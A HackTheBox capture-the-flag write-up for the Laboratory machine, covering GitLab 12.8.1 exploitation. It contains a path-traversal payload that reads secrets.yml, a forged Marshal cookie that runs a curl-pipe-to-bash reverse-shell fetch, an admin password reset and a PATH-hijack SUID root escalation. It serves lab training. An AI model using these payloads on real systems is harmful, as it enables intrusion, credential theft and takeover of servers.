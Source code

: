 ```yaml
---
title: HackTheBox - Laboratory Writeup
subtitle: Here's my writeup for the RETIRED machine Laboratory, Which is an Easy Linux machine!
summary: Here's my writeup for the RETIRED machine Laboratory, Which is an Easy Linux machine!
date: '2021-04-17'
draft: false
authors: ['elleuch']
categories: ['HackTheBox', 'easy']
tags: ['HackThebox', 'Linux','easy']
image: /assets/img/htb-Laboratory/featured.png
render_with_liquid: false
---
```


# Information Gathering

---

## Nmap scan 
```bash
sudo nmap -sC -sV 10.10.10.216 -v
```

```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 25:ba:64:8f:79:9d:5d:95:97:2c:1b:b2:5e:9b:55:0d (RSA)
|   256 28:00:89:05:55:f9:a2:ea:3c:7d:70:ea:4d:ea:60:0f (ECDSA)
|_  256 77:20:ff:e9:46:c0:68:92:1a:0b:21:29:d1:53:aa:87 (ED25519)
80/tcp  open  http     Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to https://laboratory.htb/
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: The Laboratory
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Issuer: commonName=laboratory.htb
| Public Key type: rsa
| Public Key bits: 4096
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-07-05T10:39:28
| Not valid after:  2024-03-03T10:39:28
| MD5:   2873 91a5 5022 f323 4b95 df98 b61a eb6c
|_SHA-1: 0875 3a7e eef6 8f50 0349 510d 9fbf abc3 c70a a1ca
| tls-alpn: 
|_  http/1.1
Service Info: Host: laboratory.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have 3 ports open:

- ssh: 22 running OpenSSH 8.2p1 
- http: 80 running Apache httpd 2.4.41
- https: 443 running Apache httpd 2.4.41

2 Domains: 
- laboratory.htb
- git.laboratory.htb
---

## Web Enumeration

> After adding laboratory.htb & git.laboratory.htb to /etc/hosts

Let's check laboratory.htb first

<img src="/assets/img/htb-Laboratory/users.png">

We got 2 usernames:
- Dexter
- DeeDee Dee_Dee .. 

> Skipping Gobuster scans, as it gave me nothing interesting

Seems like it's a static website, nothing much to see! 

Let's move to git.laboratory.htb

<img src="/assets/img/htb-Laboratory/gitlab.png">

Tried few logins but it failed, ( dexter:admin dexter:password )

Let's create our own account and see what we can do

<img src="/assets/img/htb-Laboratory/reg.png">

`GitLab Community Edition 12.8.1`

<img src="/assets/img/htb-Laboratory/git_ver.png">

---

# Initial foothold 

> I think there are ready-to-use scripts to exploit this gitlab version, but we'll do the process manually! 

Bascially we're gonna abuse arbitrary file read via the UploadsRewriter when moving an issue, and get the `secret_key_base` from /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml then generate the cookie payload via our own gitlab instance with the key that we got!
> If you wanna read more about this exploit: https://hackerone.com/reports/827052

Let's now try to read /etc/passwd from the box

- Let's first create 2 projects

<img src="/assets/img/htb-Laboratory/pro.png">

- Let's create an issue in one of these projets 

```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)
```

<img src="/assets/img/htb-Laboratory/passwd.png">

- Let's now move it to the other project

<img src="/assets/img/htb-Laboratory/move.png">
<img src="/assets/img/htb-Laboratory/passwd1.png">
And we get the file!
<img src="/assets/img/htb-Laboratory/passwd2.png">


Now let's repeat the same thing to get /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml

```
![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml)
```
<img src="/assets/img/htb-Laboratory/secret.png">

Let's now setup our gitlab env!

> You can either download the gitlab package or use docker

For this, I am going to use docker! First let's pull the image

```bash
sudo docker -D pull gitlab/gitlab-ce:12.8.1-ce.0
```
then run it !

```bash
sudo docker run -it gitlab/gitlab-ce:12.8.1-ce.0 sh
```

<img src="/assets/img/htb-Laboratory/docker.png">

> PS: `id` command ; force of habit xD

Let's run 

```bash
gitlab-ctl reconfigure
```
Let's change the /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml file with the one that we got!
Now, let's run

```bash
gitlab-ctl restart
gitlab-rails console
```
Here in the console, we'll craft our cookie to gain access!


Our payload to craft it:

```ruby
request = ActionDispatch::Request.new(Rails.application.env_config)
request.env["action_dispatch.cookies_serializer"] = :marshal
cookies = request.cookie_jar

erb = ERB.new("<%= `curl http://10.10.14.3:8000/shell | bash` %>") 
depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
cookies.signed[:cookie] = depr
puts cookies[:cookie]
```

<img src="/assets/img/htb-Laboratory/cookie.png">

Final payload:

```bash
curl -vvv 'https://git.laboratory.htb/users/sign_in' -b "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiaCNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBjdXJsIGh0dHA6Ly8xMC4xMC4xNC4zOjgwMDAvc2hlbGwgfCBzaGAgKS50b19zKTsgX2VyYm91dAY6BkVGOg5AZW5jb2RpbmdJdToNRW5jb2RpbmcKVVRGLTgGOwpGOhNAZnJvemVuX3N0cmluZzA6DkBmaWxlbmFtZTA6DEBsaW5lbm9pADoMQG1ldGhvZDoLcmVzdWx0OglAdmFySSIMQHJlc3VsdAY7ClQ6EEBkZXByZWNhdG9ySXU6H0FjdGl2ZVN1cHBvcnQ6OkRlcHJlY2F0aW9uAAY7ClQ=--a9181bfd8d26c33c9cf0c6fedcff269a3685902b" -k
```

Let's set a listener, and grab that shell

<img src="/assets/img/htb-Laboratory/foothold.png">

---

# User PrivEsc

So now we're on a docker container as the **git** user!
The trick now is to change the gitlab's admin (who is id=1) password

Going through gitlab's docs to get the right syntax
https://docs.gitlab.com/ee/security/reset_user_password.html

It may take a while to run
```bash
gitlab-rails console -e production
```
```ruby
user = User.find(1)
user.password = 'password123'
user.password_confirmation = 'password123'
user.save!
```
<img src="/assets/img/htb-Laboratory/dexterpass.png">

Let's login now with his account

<img src="/assets/img/htb-Laboratory/projects.png">

There is a private repo that contains his home directory backup!

<img src="/assets/img/htb-Laboratory/ssh.png">

Let's copy his ssh private key and get into the box!

<img src="/assets/img/htb-Laboratory/user.png">

---

# Root PrivEsc 

Let's first run Linpeas!
Going through the output, we can see that there is unusual suid binary
<img src="/assets/img/htb-Laboratory/suid.png">

let's run Ltrace on this binary

<img src="/assets/img/htb-Laboratory/ltrace.png">

We can abuse this binary, by creating a fake malicious chmod binary 

```bash
echo "/bin/bash -p" > /tmp/chmod
chmod 777 /tmp/chmod
export PATH=/tmp:$PATH
```
Then we run the binary!

<img src="/assets/img/htb-Laboratory/root.png">
And we rooted the box!